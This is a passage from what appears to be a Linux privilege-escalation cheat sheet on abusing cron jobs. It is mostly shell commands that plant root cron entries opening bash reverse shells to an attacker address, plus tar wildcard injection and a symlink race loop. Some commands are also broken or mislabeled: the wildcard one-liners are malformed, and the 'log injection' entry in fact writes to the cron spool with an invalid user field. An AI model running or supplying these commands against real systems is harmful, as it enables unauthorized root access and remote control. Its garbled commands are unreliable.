 #### Misconfigured or Writable Cron Jobs
- **Writable Cron Job Directories:** Insert malicious cron jobs that run as root.
  ```bash
  echo "* * * * * root bash -i >& /dev/tcp/<attack_ip>/<port> 0>&1" > /etc/cron.d/root_job
  ```
- **Exploit Misconfigured Cron Jobs:** If the user has write permissions on any cron job files, modify them to execute malicious commands:
	```bash
	echo "bash -i >& /dev/tcp/<attack_ip>/<port> 0>&1" > /path/to/writable/cronjob
	```
- **Exploit Executable Writable Script:** If the cron job executes a script with weak permissions, replace the script with malicious commands.
	```bash
	echo "/bin/sh" > /path/to/cron/script.sh
	```

#### Exploiting Cron Jobs with Wildcards
- **Abuse Wildcards in a Cron Job:**
	```bash
	echo 'echo "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" > /tmp/shell.sh' > /tmp/--checkpoint-action=exec=sh /tmp/--checkpoint=1
	```

	```bash
	echo "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" > /tmp/shell.sh
	touch /tmp/--checkpoint=1
	touch /tmp/--checkpoint-action=exec=sh /tmp/shell.sh
	```

#### Cron Log Injection
- **Add a malicious cron job directly by modifying the cron log:**
	```bash
	echo "* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/<attack_ip>/<port> 0>&1'" >> /var/spool/cron/root
	```

#### Abusing World-Writable Cron Directories
- **Abusing `/var/spool/cron`:** Add cron jobs directly to the spool.
  ```bash
  echo "* * * * * root /bin/bash -i >& /dev/tcp/<attack_ip>/<port> 0>&1" >> /var/spool/cron/root
  ```

#### Time-Based Cron Exploits
- **Race Condition Exploit:** If cron jobs create temporary files with weak permissions, a race condition exploit could replace those files before execution.
    ```bash
    while true; do
      ln -sf /tmp/malicious_script /tmp/vulnerable_tempfile
    done
    ```

# System Capabilities
